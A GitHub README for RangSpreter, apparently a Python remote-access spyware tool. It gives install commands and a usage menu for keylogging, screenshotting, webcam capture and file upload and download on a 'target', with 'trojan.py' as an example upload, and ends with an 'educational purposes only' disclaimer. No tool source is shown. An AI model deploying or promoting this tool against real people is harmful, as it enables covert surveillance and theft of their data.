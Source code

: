 # RangSpreter
This is RangSpreter. The payloads that contains keylogger, screenshot and even webcam.

- compatible with python3

Authors: [RangS](mailto:rangga19sj@gmail.com)

-------------

<p align="center">✨Check My Profile: <a href="https://github.com/RangS-1"><i>RangS! 🎉</i></a></p>

-------------

</br>

## Linux Installation

You can download RangSpreter by cloning the [Git Repo](https://github.com/RangS-1/RangSpreter.git) and simply installing its requirements:

```
~ ❯ sudo apt-get update && sudo apt-get install nmap

~ ❯ git clone https://github.com/RangS-1/RangSpreter.git

~ ❯ cd RangSpreter

~/RangSpreter ❯ sudo -H pip3 install -r requirements.txt

~/RangSpreter ❯ sudo python3 rangs.py
```

## Windows Installation

You can download RangSpreter by cloning the [Git Repo](https://github.com/RangS-1/RangSpreter.git) and simply installing its requirements:

```
~ ❯ git clone https://github.com/RangS-1/RangSpreter.git

~ ❯ cd RangSpreter

~/RangSpreter ❯ sudo -H pip3 install -r requirements.txt

~/RangSpreter ❯ sudo python3 rangs.py
```

## MacOs Installation

You can download RangSpreter by cloning the [Git Repo](https://github.com/RangS-1/RangSpreter.git) and simply installing its requirements:

```
~ ❯ git clone https://github.com/RangS-1/RangSpreter.git

~ ❯ cd RangSpreter

~/RangSpreter ❯ sudo -H pip3 install -r requirements.txt

~/RangSpreter ❯ sudo python3 rangs.py
```

-------------

## Usage

```
You don't need sudo privilege

Options after get in:
  ul                    upload file to target
  dl                    download file from target
  exit, out             get out from target
  sl                    start keylogger
  rl                    read keylogger
  stl                   stop keylogger
  wcam                  start web camera (use escape button to stop webcam)
  sh                    screenshot target monitor

Default windows options:
  mkdir                 make directory/folder
  rmdir                 remove directory/folder
  del                   delete file
  ipconfig              see target IP details
  whoami                who you are in the target

Examples:
  rangspreter>> ul trojan.py 
  rangspreter>> dl data.docx
  rangspreter>> wcam
```
</br>
##Disclaimer
This project and all associated files are provided for educational purposes only.
They are intended to be used solely for learning, research, and personal development.
Any commercial use, redistribution, or modification of this material without proper authorization is strictly prohibited.

The author assumes no responsibility for any misuse, damages, or consequences resulting from the use of this project.
